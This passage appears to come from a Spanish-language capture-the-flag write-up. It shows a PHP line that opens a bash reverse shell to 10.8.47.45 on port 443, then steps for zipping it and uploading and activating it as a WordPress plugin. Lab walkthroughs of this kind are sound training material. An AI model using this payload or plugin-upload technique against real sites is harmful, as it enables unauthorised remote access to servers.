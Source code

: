 ```bash

exec("/bin/bash -c 'bash -i >& /dev/tcp/10.8.47.45/443 0>&1'");
?>
```
Tenemos que comprimir este archivo.
```bash
❯ zip malicious.zip rev.php
  adding: rev.php (deflated 29%)
```
Ahora subamos este comprimido.

En el apartado de plugins y add New tenemos el apartado para subir el plugin.
![](/assets/img/jeff/plu.png)
Le damos en upload y seleccionamos el comprimido que creamos y Le damos en Install Now.
![](/assets/img/jeff/mali.png)
Nos redijira a esta pagina y aqui simplemente le damos el activar plugin.